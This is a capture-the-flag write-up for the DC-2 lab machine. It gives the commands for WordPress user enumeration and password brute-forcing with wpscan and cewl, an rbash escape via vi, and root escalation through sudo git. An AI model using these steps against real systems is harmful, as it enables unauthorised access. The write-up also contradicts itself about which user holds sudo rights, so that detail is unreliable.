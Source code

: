 ```yaml
---
title: "Proving grounds Play: DC-2"
layout: post
date: 2023-09-06 01:00
categories: writeup
---
```


Proving grounds Play - DC-2 CTF writeup.

## Nmap

```sh
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52517b6e70a4337ad24be10b5a0f9ed7 (DSA)
|   2048 5911d8af38518f41a744b32803809942 (RSA)
|   256 df181d7426cec14f6f2fc12654315191 (ECDSA)
|_  256 d9385f997c0d647e1d46f6e97cc63717 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

make entry in the `/etc/hosts` file as `dc-2` for the attacking machine IP.

## Web PORT: 80

![img](/assets/images/CTF/Proving_Grounds/DC-2/web.png)

**Techstack**
- Wordpress

### WPscan

```
wpscan --url $URL --disable-tls-checks --enumerate p --enumerate t --enumerate u
```

**Usernames Enumerated**

```text
admin
jerry
tom
```

### Hint

As shown in the webpage the wordslist has to be created using the tool named `cewl`

```sh
cewl http://dc-2/ > password
```
## Bruteforce credentials usgin WPscan

```sh
wpscan --url http://dc-2/ -U users -P password
```

**Credentials Obtained**

![img](/assets/images/CTF/Proving_Grounds/DC-2/credentials.png)

SSH to the machine using the credentials. The user `jerry` doesn't have SSH login permission, so login to user `tom`.

### Escaping rbash

```sh
vi
:set shell=/bin/bash
:shell
```

Type the above commmands to escape from the rbash to standard unix shell.

User `tom` may not run anything as sudo on machine DC-2. So switch to user `jerry`.

![img](/assets/images/CTF/Proving_Grounds/DC-2/shell.png)

User tom can run `/usr/bin/git` as sudo.

Search for exploit on GTFO Bins. As per the page the binary can be used to elevate sudo permissions using below commands.

![img](/assets/images/CTF/Proving_Grounds/DC-2/exploit.png)

```sh
sudo git -p help config

# Once the git manual page appears type the below and hit enter
!/bin/bash
```

**Root Shell Obtained**

![img](/assets/images/CTF/Proving_Grounds/DC-2/root.png)

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).